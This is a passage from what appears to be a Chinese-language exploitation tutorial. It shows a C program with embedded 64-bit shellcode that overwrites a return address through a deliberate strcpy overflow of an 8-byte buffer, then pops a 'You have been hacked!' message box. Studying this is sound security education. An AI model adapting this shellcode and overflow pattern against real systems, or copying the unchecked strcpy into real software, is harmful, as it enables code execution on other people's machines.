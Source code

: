 ```c
  call rax       // call ExitProcess
 }
 return 0;
}
```

原版32位机器的汇编代码见：[[#assembly code(32位)]


**（4）得到 Shellcode 机器码**

将机器码(pwntools)写入漏洞程序的数组中(64位)：

```c
#include <windows.h>
#include <stdio.h>
#include <string.h>
char name[] = "\x41\x41\x41\x41\x41\x41\x41\x41"  // name[0]~name[7]
     "\x41\x41\x41\x41"                      // to Overlap EBP
     "\x2B\x30\x97\x16"                      // Return Address(Address of "Jmp eax")                        
     "\x48\x83\xec\x50"           // sub rsp,0x50                           
     "\x48\x31\xdb"   // xor rbx,rbx
     "\x53"   // push rbx
     "\x68\x69\x6e\x67\x20"       // push "Warning"
     "\x68\x57\x61\x72\x6e"      
     "\x48\x89\xe0"               // mov rax,rsp
     "\x53"                                      // push rbx
     "\x68\x29\x20\x20\x20"
     "\x68\x20\x4a\x77\x6d"
     "\x68\x21\x28\x62\x79"
     "\x68\x63\x6b\x65\x64"
     "\x68\x6e\x20\x68\x61"
     "\x68\x20\x62\x65\x65"
     "\x68\x68\x61\x76\x65"
     "\x68\x59\x6f\x75\x20"  // push "You have been hacked!(by Jwm)"
     "\x48\x89\xe1"                   // mov rcx,rsp
     "\x53"                          // push rbx
     "\x50"                          // push rax
     "\x51"                          // push rcx
     "\x53"                          // push rbx
     "\x48\xb8\x70\x8b\xd7\x8c\x00\x00\x00\x00"
     "\xff\xd0"         // call MessageBox
     "\x53"
     "\x48\xb8\xe0\xe3\xeb\x8c\x00\x00\x00\x00"
     "\xFF\xD0";            // call ExitProcess

int main()
{
     char warning_str[] = "\x57\x61\x72\x6E"
     "\x69\x6E\x67\x20";
     printf("%s\n",warning_str);
     char hacked_str[] = "\x59\x6f\x75\x20"
     "\x68\x61\x76\x65"
     "\x20\x62\x65\x65"
     "\x6e\x20\x68\x61"
     "\x63\x6b\x65\x64"
     "\x21\x28\x62\x79"
     "\x20\x4a\x77\x6d"
     "\x29\x20\x20\x20";
     printf("%s\n",hacked_str);
     
     char buffer[8];
     strcpy(buffer, name);
     printf("%s",buffer);
```